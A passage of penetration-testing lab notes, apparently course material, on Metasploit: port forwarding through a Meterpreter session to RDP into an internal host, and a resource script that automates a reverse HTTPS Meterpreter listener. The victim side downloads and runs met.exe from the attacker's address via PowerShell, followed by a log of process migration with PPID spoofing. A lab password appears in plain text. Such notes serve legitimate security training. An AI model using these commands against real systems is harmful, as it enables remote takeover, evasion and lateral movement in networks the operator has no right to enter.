 You could also use portfwd from in a Meterpreter session.

```console
m> portfwd -h

// create port forward
m> portfwd add -l 3389 -p 3389 -r 172.16.134.200

// connect to 127.0.0.1:3389 with xfreerdp to access the compromised host in the internal network

kali$ sudo xfreerdp /v:127.0.0.1 /u:luiza
```

## Automating Metasploit

### Resource Scripts

```
192.168.249.202
```

If we want to set up serveral multi/handler listeners, we could either let Metasploit run in the background the whole time or start Metasploit and manually set up a listener each time, or we could also create a resource script to automate this task for us.

```console
// create file
$ nano listener.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.45.198
set LPORT 443
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
run -z -j

$ sudo msfconsole -r listener.rc
[*] Started HTTPS reverse handler on https://192.168.45.198:443

$ xfreerdp /u:justin /p:SuperS3cure1337# /v:192.168.249.202
```

Now in Justin's powershell:

```console
> iwr -uri http://192.168.45.198/met.exe -Outfile met.exe
> .\met.exe

// in meterpreter console

[*] Session ID 1 (192.168.119.4:443 -> 127.0.0.1) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against BRUTE2
[*] Current server process: met.exe (2004)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 5340
[+] Successfully migrated into process 5340
[*] Meterpreter session 1 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-02 09:54:32 -0400
```

Pre-written scripts are available:

```console
kali$ ls -l /usr/share/metasploit-framework/scripts/resource
```
